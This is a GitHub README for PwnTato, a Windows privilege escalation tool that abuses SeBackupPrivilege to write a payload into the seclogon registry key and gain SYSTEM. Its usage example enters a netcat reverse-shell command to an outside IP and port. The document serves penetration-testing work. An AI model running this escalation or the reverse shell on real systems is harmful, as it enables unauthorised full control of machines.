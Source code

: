 # PwnTato

PwnTato is a local privilege escalation tool that facilitates the transition from Windows Service Accounts to NT AUTHORITY\SYSTEM. It leverages the SeBackupPrivilege token privilege to inject a payload into the seclogon registry key.


![PwnTato Logo](https://i.imgur.com/XDE367N.png)

## Features

- **SeBackupPrivilege Injection:** PwnTato injects the SeBackupPrivilege token privilege into the process to manipulate registry keys.

- **Registry Key Manipulation:** The tool allows users to input a custom payload, which is then written to the `seclogon` registry key.

## Prerequisites

- Windows operating system
- PureBasic compiler (for compilation)

## Usage

```shell



              ██      ██  ██
            ██  ██  ██  ██  ██  ██████
          ██  ██  ████  ██    ██    ██
        ██      ██  ██    ██  ██    ██
          ████  ██    ██    ██    ██
            ████  ██    ██  ██  ████
            ██▒▒████████████████▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ██▒▒██  ▒▒▒▒▒▒▒▒  ██▒▒██
            ██▒▒████▒▒▒▒▒▒▒▒████▒▒██
            ██▒▒▒▒▒▒▒▒████▒▒▒▒▒▒▒▒██
            ██▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒██
            ████▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒████
              ████████████████████
                      v1.0
               PwnTato by @duty1g


[+] SeBackupPrivilege token injected to the process
[!] Enter your seclogon payload: c:\windows\temp\nc.exe 192.168.1.2 1337 -e cmd.exe      

```

## Binaries

Download the latest release from the [Releases](https://github.com/duty1g/PwnTato/releases) page. Choose the appropriate binary for your system.


## Disclaimer

This tool is intended for educational and testing purposes only. The author is not responsible for any misuse or damage caused by the use of this tool.

## Author

- duty1g <a href="https://twitter.com/duty_1g"><img src="https://img.shields.io/twitter/follow/duty_1g.svg?logo=twitter"></a>

Feel free to contribute or report issues!
